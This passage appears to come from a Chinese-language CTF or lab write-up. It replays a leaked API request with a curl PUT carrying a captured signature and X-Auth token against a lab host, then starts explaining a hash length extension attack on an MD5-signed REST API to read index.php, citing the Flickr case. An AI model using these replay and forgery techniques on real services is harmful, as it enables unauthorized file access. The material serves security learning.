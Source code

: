 ```
|4|PUT | _url=%2Fdocuments&id=3&contenttype=text%2Fplain&filepath=.%2Fdocuments%2Frest­api­ v2.txt&api_sig=6854c04381284dac9970625820a8d32b | b32GjABvSf1Eiqry | 2014­02­21 12:07:43 | \\/api\\/documents\\/id\\/3 | +­­­­+­­­­­­­­+­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­ ­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­+­­­­­­­­­­­­­­­­­ ­+­­­­­­­­­­­­­­­­­­­­­+­­­­­­­­­­­­­­­­­­­­­­­­­­­­­+ 

```

利用里面的其中一条，放到curl里面测试一下，根据REST API的文档，curl命令应该是这样的:

```
#> curl ­X PUT ­d
'contenttype=text/plain&filepath=./documents/rest­api­v2.txt&api_sig=6854c04381284dac9970625820a8d32b' ­H 'X­Auth: b32GjABvSf1Eiqry'

http://172.16.1.80/api/documents/id/3

```

根据文档，api_sig的值是在php里面生成的:

```
hashlib.md5(secret+'contenttypetext/plainfilepath./documents/rest­api­v2.txtid3').  
hexdigest()  

```

secret作为双方都共享的值，后面加上目标文件的路径，生成的md5 hash作为api签名，在不知道secret的情况下，似乎无法利用任意路径生成合法的签名。

但是真的是这样么?

几年前著名应用 Flickr曾经因为Hash签名使用方法不正确结果掉进了很大的坑里，那就是 Hash长度扩展攻击(Hash length extension attack),导致可以在不知道API secret的情况下伪造任意请求。

关于Flickr的坑请看这里:

http://netifera.com/research/flickr_api_signature_forgery.pdf

Hash长度扩展攻击能够实现是因为 foo=bar 和 fo=obar 会产生一样的hash签名，所以我们可以生成一个可以让我们在原参数后面添加新参数，并且签名还是可以通过检验的。

比如这个请求:

```
"contenttype=text/plain&filepath=./documents/rest­api­v2.txt"   

```

如果我们把它改成:

```
"c=ontenttypetext/plain&filepath=./documents/rest­api­v2.txt&contenttype=text/plain&filepath=./index.php"  

```

那么在计算hash的时候字符串就会变成这样:

```
SECRETcontenttypetext/plainfilepath=./documents/rest­api­v2.txtcontenttype=text/plainfilepath=./index.phpid3  

```
